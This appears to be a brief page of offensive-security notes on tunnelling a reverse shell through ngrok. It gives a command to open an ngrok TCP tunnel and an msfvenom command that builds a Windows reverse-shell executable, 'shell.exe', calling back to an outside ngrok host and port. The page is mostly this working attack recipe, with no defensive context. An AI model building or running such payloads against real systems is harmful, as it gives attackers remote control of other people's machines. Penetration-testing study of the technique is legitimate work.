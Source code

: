 # ngrok

ngrok provides a real-time web UI where you can introspect all HTTP traffic running over your tunnels. Replay any request against your tunnel with one click.

### Reverse Shell

{% hint style="info" %}

{% endhint %}

```bash
ngrok tcp 4444
```

We create our reverse shell with msfvenom, where it will point to our created ngrok server, which if it receives a connection, the traffic will be redirected to the port we have indicated:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=6.tcp.ngrok.io LPORT=15343 -f exe > shell.exe
```
